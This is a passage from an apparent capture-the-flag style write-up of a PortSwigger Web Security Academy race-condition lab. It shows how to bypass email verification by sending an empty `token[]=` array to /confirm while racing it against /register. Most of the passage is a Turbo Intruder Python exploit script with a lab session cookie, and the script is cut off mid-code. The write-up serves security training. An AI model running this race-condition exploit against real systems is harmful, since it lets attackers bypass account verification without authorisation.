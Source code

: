In a while ago, we found that by providing **an empty array like `token[]=`, the backend will return "Array"**. That means we could pass the confirmation check with an empty array!

## Exploitation

**Benchmark how the endpoint behaves under normal conditions:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911142038.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911142046.png)

As expected, it respond "Incorrect token: Array".

**Sending both requests in parallel:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911142132.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911142140.png)

After sending those requests bunch of times, I wasn't able to bypass the email verification. However, I noticed that **the POST `/confirm` request is much faster than the POST `/register` one.**

Hmm... **We want the new user is pending, and then send the `/confirm` request to bypass the email verification**...

To solve this problem, we can **add some delay in the `/confirm` request**.

To do so, we can use "Turbo Intruder".

- **Send the `/register` POST request to "Turbo Intruder":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911143458.png)

- **Select template `examples/race-single-packet-attack.py`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911143542.png)

- **Add a string formatting placeholder in `username` parameter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-5/images/Pasted%20image%2020230911143656.png)

- **Copy the following Python code to the template:**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    # replace your `phpsessionid` session cookie in here
    confirmTokenRequest = '''POST /confirm?token[]= HTTP/2
Host: 0af8006404e7115080610d59008b0008.web-security-academy.net
Cookie: phpsessionid=MwpWOoCnobr1TrUGlta4cdZpcrqzFR0A
Content-Length: 0

'''
    MIN_ATTEMPT = 1
    MAX_ATTEMPT = 20
    for usernamePrefix in range(MIN_ATTEMPT, MAX_ATTEMPT):
        currentQueue = 'queue' + str(usernamePrefix)
        # prepare 1 registration request
        engine.queue(target.req, str(usernamePrefix), gate=currentQueue)

        # prepare x number of confirm token requests
        CONFIRM_REQUEST_NUMBER = 50
        for confirmRequest in range(CONFIRM_REQUEST_NUMBER):
            engine.queue(confirmTokenRequest, gate=currentQueue)
```